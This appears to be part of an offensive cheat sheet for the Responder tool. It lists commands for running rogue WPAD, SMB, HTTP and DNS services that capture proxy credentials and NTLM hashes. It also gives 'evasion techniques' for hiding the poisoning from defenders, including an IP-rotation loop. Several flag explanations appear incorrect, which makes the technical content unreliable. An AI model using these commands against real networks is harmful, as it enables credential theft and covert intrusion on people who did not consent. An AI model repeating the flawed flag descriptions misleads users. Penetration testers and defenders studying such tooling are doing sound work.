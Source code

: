 #### Rogue Services Setup

1. **Setting Up a Rogue WPAD Proxy**: Starts a rogue WPAD proxy service that intercepts and captures proxy credentials.
    ```bash
    responder -I <interface> -w
    ```
2. **Customizing Rogue WPAD Responses**: Configures the WPAD proxy to respond with a custom User-Agent string, which can be used to mimic legitimate proxies or bypass defenses.
    ```bash
    responder -I <interface> -w -u "CustomUserAgent"
    ```
3. **Rogue SMB Server for Capturing Hashes**: Sets up a rogue SMB server that responds to SMB requests and captures the corresponding NTLM hashes.
    ```bash
    responder -I <interface> -r
    ```
4. **Customizing SMB and HTTP Listening IP**: Configures the SMB and HTTP servers to listen on a specified IP address, which can be useful for targeted attacks.
    ```bash
    responder -I <interface> -e <target_ip>
    ```
5. **Rogue DNS and HTTP Authentication**: Forces Basic HTTP authentication and rogue DNS responses, capturing credentials sent in response to these services.
    ```bash
    responder -I <interface> -f -e <target_ip>
    ```

#### Evasion Techniques

1. **Running Responder in Stealth Mode**: Operates in passive mode, capturing credentials without actively poisoning the network, reducing the chance of detection.
    ```bash
    responder -I <interface> -p
    ```
2. **Using Custom User-Agent for Stealth**: Deploys a custom User-Agent string to avoid detection by systems looking for default User-Agent values from Responder.
    ```bash
    responder -I <interface> -u "CustomUserAgent"
    ```
3. **Bypassing Network Monitoring with Selective Responses**: Configures Responder to only respond to specific queries (e.g., SMB) while disabling others, making it harder to detect.
    ```bash
    responder -I <interface> -r -d -w -e <target_ip>
    ```
4. **Rotating IP Addresses for Response**: Rotates the IP address used for poisoning, making it more difficult for defenders to pin down the attack.
    ```bash
    while true; do
      responder -I <interface> -e $(shuf -n 1 -i 192.168.1.100-192.168.1.200)
      sleep 10
    done
    ```
5. **Using Delays to Avoid Detection**: Introduces a delay before responding to queries, which can help avoid detection by making the attack less aggressive.
    ```bash
    responder -I <interface> -w -e <target_ip> -p -q 5
    ```
